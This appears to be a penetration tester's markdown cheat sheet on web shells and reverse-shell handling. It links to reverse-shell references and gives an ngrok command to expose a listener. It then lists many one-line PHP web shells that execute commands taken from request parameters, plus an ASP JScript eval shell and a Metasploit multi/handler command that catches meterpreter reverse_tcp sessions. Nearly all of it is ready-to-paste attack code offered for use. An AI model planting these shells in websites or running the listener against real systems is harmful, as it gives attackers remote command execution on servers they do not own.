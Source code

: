 - - -
###### Useful Links : 
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://alamot.github.io/reverse_shells/
<br>

##### Listen for Public conections and tunnel it to local.
```sh
ngrok tcp 9090
```

###### PHP Web Shells : 

```php
<?php echo system($_REQUEST['cmd']); ?>
```

```php
<?php  
	system($_REQUEST['cmd']);  
?>
```

```php
<?php  
    echo system($_GET["cmd"]);  
?>
```

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```

```php
<?php proc_open($_GET['cmd'], array(array('pipe', 'r'), array('pipe', 'w'), array('pipe', 'w')), $pipes); ?>

<?php popen($_GET['cmd'], 'r'); ?>

<?php echo $_GET['cmd']; ?> 

<?php passthru($_GET['cmd']); ?>
```

```js

// Server-side
<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["cmd"],"unsafe");}</script>



// Client-side
Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())

```
<br>

**Check you kali** : `/usr/share/webshell/`

###### Fast Listner ( Multi/handler ) : ⛈️ ⛈️ 
```sh
sudo msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.8.0.239; set LPORT 9090; set ExitOnSession false; exploit -j -z'
```

- - -

